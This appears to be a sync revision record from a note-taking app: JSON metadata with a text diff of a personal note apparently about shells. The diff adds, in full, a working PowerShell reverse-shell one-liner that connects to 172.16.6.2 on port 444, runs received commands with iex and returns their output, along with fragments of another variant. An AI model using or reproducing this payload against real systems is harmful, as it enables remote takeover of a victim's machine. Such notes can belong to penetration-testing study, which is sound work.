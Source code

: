 id: 49885df17fa54bec85c972993a603005
parent_id: 2c4e49c4a2a5405abe1feabb28ceb954
item_type: 1
item_id: 1a72f4e7464d467d810fc01a3adf9ed0
item_updated_time: 1643602980901
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\" shell\\\n\\\n\"],[1,\"`\"],[0,\"powershe\"]],\"start1\":108,\"start2\":108,\"length1\":16,\"length2\":17},{\"diffs\":[[0,\".Stop()\\\"\"],[1,\"`\"],[0,\"\\\n\\\nRevers\"]],\"start1\":718,\"start2\":718,\"length1\":16,\"length2\":17},{\"diffs\":[[0,\"ose()\\\"\\\n\\\n\"],[1,\"`powershell -nop -c \\\"$client = New-Object System.Net.Sockets.TCPClient('172.16.6.2',444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()\\\" `\\\n\\\n\"],[0,\"URL for \"]],\"start1\":1318,\"start2\":1318,\"length1\":16,\"length2\":541},{\"diffs\":[[0,\"indows\\\n\\\n\"],[1,\"`\"],[0,\"powershe\"]],\"start1\":1913,\"start2\":1913,\"length1\":16,\"length2\":17},{\"diffs\":[[0,\"powershell -\"],[-1,\"exec bypass\"],[1,\"nop\"],[0,\" -c \\\"$client\"]],\"start1\":1922,\"start2\":1922,\"length1\":35,\"length2\":27},{\"diffs\":[[0,\"etStream(); \"],[-1,\"\\\\\"],[0,\"[byte\"],[-1,\"\\\\[\\\\]\\\\\"],[1,\"[]\"],[0,\"]$bytes = 0.\"]],\"start1\":2034,\"start2\":2034,\"length1\":35,\"length2\":31},{\"diffs\":[[0,\"= 0..65535|%{0};\"],[1,\" \"],[0,\"while(($i = $str\"]],\"start1\":2061,\"start2\":2061,\"length1\":32,\"length2\":33},{\"diffs\":[[0,\".Length)) -ne 0)\"],[-1,\"{\"],[1,\" { \"],[0,\"$data = (New-Obj\"]],\"start1\":2120,\"start2\":2120,\"length1\":33,\"length2\":35},{\"diffs\":[[0,\"g($bytes,0, $i);\"],[1,\" \"],[0,\"$sendback = (iex\"]],\"start1\":2204,\"start2\":2204,\"length1\":32,\"length2\":33},{\"diffs\":[[0,\" ';$sendbyte = (\"],[-1,\"\\\\\"],[0,\"[text.encoding\\\\]\"]],\"start1\":2313,\"start2\":2313,\"length1\":33,\"length2\":32},{\"diffs\":[[0,\"ext.encoding\"],[-1,\"\\\\\"],[0,\"]::ASCII\"],[-1,\" \"],[0,\").GetBytes($\"]],\"start1\":2331,\"start2\":2331,\"length1\":34,\"length2\":32},{\"diffs\":[[0,\"endbyte.Length);\"],[1,\" \"],[0,\"$stream.Flush()}\"]],\"start1\":2402,\"start2\":2402,\"length1\":32,\"length2\":33},{\"diffs\":[[0,\"am.Flush()};$client.Close()\\\"\"],[1,\"`\"]],\"start1\":2424,\"start2\":2424,\"length1\":28,\"length2\":29}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-31T04:23:37.722Z
created_time: 2022-01-31T04:23:37.722Z
type_: 13